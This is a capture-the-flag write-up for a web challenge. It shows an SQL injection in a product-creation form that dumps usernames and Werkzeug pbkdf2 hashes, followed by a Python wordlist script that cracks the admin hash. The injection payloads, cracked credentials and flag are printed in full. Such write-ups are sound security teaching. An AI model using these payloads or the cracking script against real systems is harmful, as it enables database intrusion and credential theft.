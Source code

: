 
# Challenge Name: Hacker Web Store


![date](https://img.shields.io/badge/date-24.05.2024-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-183-blue.svg)  

## Description

Author: @Jstith  
  
Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.  
  
_This challenge may require a local password list, which we have provided below. **Reminder, bruteforcing logins is not necessary and [against the rules.](https://ctf.nahamcon.com/rules)**_**  
  
**Attachments:**  [password_list.txt](https://ctf.nahamcon.com/files/0b0df3700fc27beb86dfe2b6d8b077a7/password_list.txt?token=eyJ1c2VyX2lkIjozOTA1LCJ0ZWFtX2lkIjoxODczLCJmaWxlX2lkIjo5M30.ZlJYNQ.2HbqOXfKPZjnZbsNoX0nazWNy88)

## Detailed solution

http://challenge.nahamcon.com:32399/

We have an app with a login page and the option to create posts.

![](https://github.com/BaadMaro/CTF/assets/72421091/d6dd28c2-192f-49d3-b123-5997788780be)

![](https://github.com/BaadMaro/CTF/assets/72421091/46b94709-e819-473b-ab09-a58b5419f0b3)

![](https://github.com/BaadMaro/CTF/assets/72421091/fd8c75a1-6418-4bc1-a5b0-fb6db3fb85d7)

While testing post creation, I detected a SQL injection while sending `'`

![Pasted image 20240525223502](https://github.com/BaadMaro/CTF/assets/72421091/a8089dfa-80b5-4fc2-9b75-167f188a951d)

The values used in post creation have `'` which block using dynamic data.

We can close the first post value and add next to it a second post with dynamic data like this for the description

```
post 1') , ('Product2', '15.99', 'Description2
```

I started checking for columns inside users table, and I was able to detect name and password using `SELECT X FROM users`

```
1') , ('Product2', (SELECT password FROM users), 'Description3
```

We have multiple users so we need to use LIMIT and OFFSET to get all users names and passwords

```
1') , ('Product2', (SELECT name FROM users LIMIT 1 OFFSET 0), 'Description3
```

```
Joram
```

Repeating the same logic for multiple OFFSET (we have 3 users), we were able to get the users 

```
Joram

James

website_admin_account
```

```
pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b
pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
```

As mentioned in the challenge description, we have a custom password list to crack the hashes

Doing some research, I found that the hash format is used by Python Werkzeug `generate_password_hash`

We need to make a custom function and use the same hash type, iterations, and salt to generate hashes from passwords list and compare them to our hashes.

Here is the example for the `website_admin_account` hash

```python
from werkzeug.security import _hash_internal
import sys

def generate_password_hash(password, method="pbkdf2:sha256:600000"):
    """Hash a password with the given method and salt with a string of
    the given length. The format of the string returned includes the method
    that was used so that :func:`check_password_hash` can check the hash.

    The format for the hashed string looks like this::

        method$salt$hash

    This method can **not** generate unsalted passwords but it is possible
    to set param method='plain' in order to enforce plaintext passwords.
    If a salt is used, hmac is used internally to salt the password.

    If PBKDF2 is wanted it can be enabled by setting the method to
    ``pbkdf2:method:iterations`` where iterations is optional::

        pbkdf2:sha256:80000$salt$hash
        pbkdf2:sha256$salt$hash

    :param password: the password to hash.
    :param method: the hash method to use (one that hashlib supports). Can
                   optionally be in the format ``pbkdf2:<method>[:iterations]``
                   to enable PBKDF2.
    :param salt_length: the length of the salt in letters.
    """
    salt = "MSok34zBufo9d1tc"
    h, actual_method = _hash_internal(method, salt, password)
    return "%s$%s$%s" % (actual_method, salt, h)

f = open("pass.txt", "r")
o = open("crack-admin.txt", "w")

for x in f:
   hash = generate_password_hash(x.strip(),method='pbkdf2:sha256:600000')
   a = f"{x.strip()} {hash}"
   o.write(a)
   print(x.strip())
   if hash == "pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57":
       print(f"{x.strip()} found password")
       sys.exit()
o.close()

```

```
ntadmin1234 found password
```

We got our match with `ntadmin1234`

We can login now with  `website_admin_account:ntadmin1234` and get our flag

## Flag

```
flag{87257f24fd71ea9ed8aa62837e768ec0}
```

